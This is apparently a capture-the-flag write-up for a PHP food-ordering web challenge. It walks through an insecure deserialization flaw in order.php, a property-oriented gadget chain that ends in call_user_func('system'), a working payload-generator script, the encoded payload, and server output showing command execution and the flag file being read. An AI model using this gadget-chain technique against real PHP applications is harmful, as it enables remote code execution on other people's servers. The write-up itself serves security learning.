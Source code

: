 # POP Restaurant
- Spent a week to create this food ordering system. Hope that it will not have any critical vulnerability in my application.

- After creating an account I am presented with this page. It allows me to order food via a POST request to `/order.php`

![](../../../assets/landing_POPRestaurant.png)



``` http
POST /order.php HTTP/1.1
Host: 94.237.48.12:44755
Content-Length: 89
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://94.237.48.12:44755
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://94.237.48.12:44755/index.php<?php

data=Tzo1OiJQaXp6YSI6Mzp7czo1OiJwcmljZSI7TjtzOjY6ImNoZWVzZSI7TjtzOjQ6InNpemUiO047fQ%3D%3D
```

- When I Base64 decode the data in the request I get:
    `O:5:"Pizza":3:{s:5:"price";N;s:6:"cheese";N;s:4:"size";N;}`
- This is a serialized PHP object, and I can see it being directly deserialized in the source code of `order.php`

```php
[...]
isAuthenticated();
$username = $_SESSION['username'];
$id = $_SESSION['id'];
$db = new Database();
$order = unserialize(base64_decode($_POST['data']));
$foodName = get_class($order);
[...]
```
- I start looking for classes with **Magic Methods** (https://www.php.net/manual/en/language.oop5.magic.php) that will allow me to exploit this vulnerability. And I find these ones:

```php
<?php
class IceCream{
	public $flavors;
	
	public $topping;
	public function __invoke(){
		foreach ($this->flavors as $flavor) {
			echo $flavor;
		}
	}
}
```

``` php
<?php
class Pizza{
	public $price;
	public $cheese;
	public $size;
	public function __destruct(){
		echo $this->size->what;
	}
}
```

```php
<?php
	class Spaghetti {
	public $sauce;
	public $noodles;
	public $portion;
	public function __get($tomato)
	{
		($this->sauce)();
	}
}
```
- The **POP chain** that immediately jumps to my attention is:
    -  Pizza's **__destruct()** calls Spaghetti's **__get()** by trying to access an attribute that doesn't exist in the Spaghetti class.
    - Spaghetti's __gets() calls IceCreams's **__invoke()** by calling it as if it were a function.
- And then I didn't know what to do to exploit this chain, but after searching some more I found this class:

``` php
<?php
namespace Helpers{

	use ArrayIterator;
		class ArrayHelpers extends ArrayIterator{
		public $callback;
		
		public function current()
		{
			$value = parent::current();
			echo $value;
			$debug = call_user_func($this->callback, $value);
			return $value;
		}
	}
}
```
- It's a custom implementation of the **ArrayIterator** class, that after echoing the current element of the array, calls the function in the *$callback* attribute with the current value as the argument.
- The **current()** function (https://www.geeksforgeeks.org/php/php-arrayiterator-current-function/) is called when a **foreach** clause is present, which is the case in IceCream's __invoke(), that iterates through the *$flavors* array.
- If I set the IceCream's *\$flavors* to a **ArrayHelpers** that has a *$callback* of 'system', and is iterating through an array of commands, I have RCE on the server. 
- The exploit (it was a pain because of the namespaces ;( ):

```php
namespace Helpers {
    use ArrayIterator;

    class ArrayHelpers extends ArrayIterator
    {
        public $callback;
    }
}

namespace {
    class IceCream
    {
        public function __construct(){
            $ah = new \Helpers\ArrayHelpers(['ls /']);
            $ah->callback = 'system';
            $this->flavors = $ah;
            $this->topping = 'whatever';
        }
    }

    class Spaghetti
    {
        public function __construct(){
            $this->sauce  = new IceCream();
            $this->noodles = True;
            $this->portion = "big";
        }
    }

    class Pizza
    {
        public function __construct(){
            $this->price  = 12;
            $this->cheese = True;
            $this->size   = new Spaghetti();
        }
    }

    $p = new Pizza();
    echo base64_encode(serialize($p)) . "\n";
}
```
- When I send the serialized and encoded object chain, I get RCE!

``` http
POST /order.php HTTP/1.1
Host: 94.237.48.12:44755
Content-Length: 413
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://94.237.48.12:44755
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://94.237.48.12:44755/index.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=561aa61236020ea4642c3e56ef1450f7
Connection: keep-alive

data=Tzo1OiJQaXp6YSI6Mzp7czo1OiJwcmljZSI7aToxMjtzOjY6ImNoZWVzZSI7YjoxO3M6NDoic2l6ZSI7Tzo5OiJTcGFnaGV0dGkiOjM6e3M6NToic2F1Y2UiO086ODoiSWNlQ3JlYW0iOjI6e3M6NzoiZmxhdm9ycyI7TzoyMDoiSGVscGVyc1xBcnJheUhlbHBlcnMiOjQ6e2k6MDtpOjA7aToxO2E6MTp7aTowO3M6NDoibHMgLyI7fWk6MjthOjE6e3M6ODoiY2FsbGJhY2siO3M6Njoic3lzdGVtIjt9aTozO047fXM6NzoidG9wcGluZyI7czo4OiJ3aGF0ZXZlciI7fXM6Nzoibm9vZGxlcyI7YjoxO3M6NzoicG9ydGlvbiI7czozOiJiaWciO319
```

``` http
HTTP/1.1 302 Found
Date: Thu, 16 Oct 2025 15:10:58 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: index.php
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Content-Length: 111

bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
pBhfMBQlu9uT_flag.txt
proc
root
run
sbin
srv
sys
tmp
usr
var
ls /
```

- After that, I just change the command to cat the flag


``` http
HTTP/1.1 302 Found
Date: Thu, 16 Oct 2025 15:18:55 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: index.php
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Content-Length: 55

HTB{<REDACTED>}cat /pBhfMBQlu9uT_flag.txt
```

writeup by varanda - 16/10/2025
